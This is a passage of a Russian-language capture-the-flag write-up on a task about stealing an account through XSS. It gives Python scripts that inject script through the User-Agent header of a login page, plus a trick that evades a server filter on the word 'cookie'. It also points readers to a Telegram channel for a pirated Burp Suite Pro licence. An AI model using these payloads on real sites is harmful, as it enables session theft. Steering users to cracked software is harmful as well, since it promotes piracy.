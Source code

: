 При решении тасков на клиент-часть, держим в голове, что скорее всего страницу периодически будет посещать чекер. По другому аккаунт с использованием XSS просто не угнать, поэтому закидываем несколько атак, через примерно 10-15 секунд, и пробуем логинится.

Готово, теперь разберем способ для настоящих мужчин.
# Второй способ (мужской)
Для данного способа вам потребуется ```Burp Suite Pro```. Почему именно PRO?
Потому, что там есть ```Collaborator```, которого нет в бесплатной версии. 
Переходим по ссылке ``` https://t.me/pt_soft``` чтобы "КУПИТЬ" нашу лицензию.
В поиске по каналу в телеге ищем **Burpsuite**. И устанавливаем.

## Проработка мужской атаки

После поиска в гугл по запросу "XSS steal cookie payloads" и изучения результатов понимаем что нам нужно захватить ```document.cookie``` **значение**.

Пробуем простой alert();

````python 
import requests


payload = '<script>alert(document.cookie);</script>'

user = "asdf" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
 
print(response.status_code)
print(response.text)
````
И сталкиваемся с проблемой

Все отработало, но вот alert'a нет. А это все потому, что на Codeby.games есть похожий таск, и автор данного решил чтобы все было не так просто, применить фильтрацию на серверной части на слово ```cookie```.
Мы это тоже обойдем, нужно просто немного **подумать**.
## Обход фильтрации
Не забываем, что у нас есть неограниченный доступ к **javascript** на клиентской части.
в функции alert() нам нужно вывести document.cookie.
Попробуем сделать это с помощью переменных.
Необязательно транспортировать слово cookie именно как слово, можно его собрать из массива!
````javascript
const vv = ["coo", "kie"].join(""); # передаем его раздельно и с помощью join собираем в одно слово
alert(document[vv]); # не забываем что document это обьект, и к его значениям можно обращаться не только через точку, но и через [значение]
````
Пробуем этот payload.
````python 
import requests


payload = '<script>const vv = ["coo", "kie"].join("");alert(document[vv]);</script>'

user = "asdf" 
headers = {'User-Agent': payload}
data = {"username":user, "password":"aboba"}


response = requests.post('http://62.173.140.174:16035/login.php', headers=headers, data=data)
````